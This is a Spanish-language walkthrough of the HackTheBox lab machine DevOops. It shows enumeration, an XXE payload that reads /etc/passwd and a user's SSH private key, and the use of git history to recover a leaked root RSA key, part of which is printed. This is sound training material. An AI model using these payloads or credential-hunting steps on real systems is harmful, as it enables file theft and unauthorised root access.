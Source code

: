 # 10.10.10.91 - DevOops
![DevOops](https://user-images.githubusercontent.com/96772264/209209899-8e7383a6-6926-455a-9ee9-2dc94295d759.png)

-----------------------
# Part 1: Enumeración

PUertos abiertos 22(ssh), 5000
![devops1](https://user-images.githubusercontent.com/96772264/209209973-2424dce6-36ac-4436-bde3-7902ddc6abff.PNG)


```console
└─$ curl -s http://10.10.10.91:5000
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.
TODO: replace this with the proper feed from the dev.solita.fi backend.
[/feed]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ/'
000000347:   200        0 L      39 W       347 Ch      "upload"                                             
000000112:   200        1815 L   24122 W    517022 Ch   "feed"
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ.php'
# Nada
└─$ wfuzz -c --hw=31 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.91:5000" -u http://10.10.10.91:5000/ -t 100
# Tampoco
```

**/feed** -> nos muestra la misma foto que salia en el puerto 5000

-----------------------
# Part 2: XXE

En **/uploads** nos piden un xml con una estrcutura muy concreta:

![devops2](https://user-images.githubusercontent.com/96772264/209210080-478618b2-c9b5-4690-8f7c-e9d00fae2e6c.PNG)

```
<?xml version="1.0" encoding="UTF-8"?>
<elements>
    <Author>William Gibson</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
```
PROCESSED BLOGPOST: Author: William Gibson Subject: Cyberpunk Content: Neuromante 
URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```
Esto nos leakea el lugar donde se sube y una ruta/usuario del sistema "roosa"

Si subimos un XML "muy especial" (inyeccion XXE)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
Conclusión: Usarios -> root git y roosa

Como sabemos que existe el usuario roosa, podemos pedir su llave ```/home/roosa/.ssh/id_rsa```

![devops3](https://user-images.githubusercontent.com/96772264/209210104-bd404212-ea7e-4447-acd3-013be4e33aaf.PNG)

```console
└─$ ssh -i id_rsa roosa@10.10.10.91
```
-----------------------
# Part 3: En el sistema
```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```
- Archivos que llaman la atencion: /home/roosa/deploy/src/app.py~ /home/roosa/service.sh 
La "~" significa backup, con diff vemos las diferencias...
```console
roosa@devoops:/tmp$ diff <(cat /home/roosa/deploy/src/app.py~) <(cat /home/roosa/deploy/src/app.py)
<   run_gunicorn_app("0.0.0.0", 5000, True, )
>   run_gunicorn_app("0.0.0.0", 5000, True, None)
```
En la carpeta home de esta persona hay un script de bash.

```console
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```

En esa carpeta hay un script.sh entre otras cosas:
```bash
roosa@devoops:~/work/blogfeed$ cat run-gunicorn.sh
#!/bin/sh

export FLASK_APP=feed.py
export WERKZEUG_DEBUG_PIN=151237652
gunicorn -w 10 -b 0.0.0.0:5000 --log-file feed.log --log-level DEBUG --access-logfile access.log feed:app
```
Si buscamos más en esa carpeta... Encontramos un repositorio.
```console
roosa@devoops:~/work/blogfeed$ ls -la
drwxrwx--- 8 roosa roosa 4096 Mar 26  2021 .git
...
```

-----------------------
# Part 4: Leak

SIempre que nos topemos con un git, hay que ver antiguas versiones del proyecto a ver si hay cosas criticas que hayan quitado...
```console
roosa@devoops:~/work/blogfeed/.git$ git log --oneline
7ff507d Use Base64 for pickle feed loading
26ae6c8 Set PIN to make debugging faster as it will no longer change every time the application code is chang
ed. Remember to remove before production use.
cec54d8 Debug support added to make development more agile.
ca3e768 Blogfeed app, initial version.
dfebfdf Gunicorn startup script
33e87c3 reverted accidental commit with proper key
d387abf add key for feed integration from tnerprise backend
1422e5a Initial commit

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d 26ae6c8
# Sale esta ruta /debugconsole pero no aparece si la busco en el navegador lo mismo con /newpost

roosa@devoops:~/work/blogfeed/.git$ git diff 7ff507d d387abf
# a/resources/integration/authcredentials.key
 -----BEGIN RSA PRIVATE KEY-----
-MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
-ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
+vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
```
Han sustituido el contenido de una llave privada por otra. Dicha llave existe: 
```console
roosa@devoops:~/work/blogfeed/resources/integration$ cat authcredentials.key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApc7idlMQHM4QDf2d8MFjIW40UickQx/cvxPZX0XunSLD8veN
ouroJLw0Qtfh+dS6y+rbHnj4+HySF1HCAWs53MYS7m67bCZh9Bj21+E4fz/uwDSE
...
roosa@devoops:~/work/blogfeed/resources/integration$ cp authcredentials.key /tmp/
```
La llave esta es la que han cambiado, si la cambio por la nueva... (quitando los "+" claro)
```
+MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
+8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
...
```
Podemos acceder como root
```console
roosa@devoops:/tmp$ ssh -i id_rsa root@localhost
root@devoops:~#
```
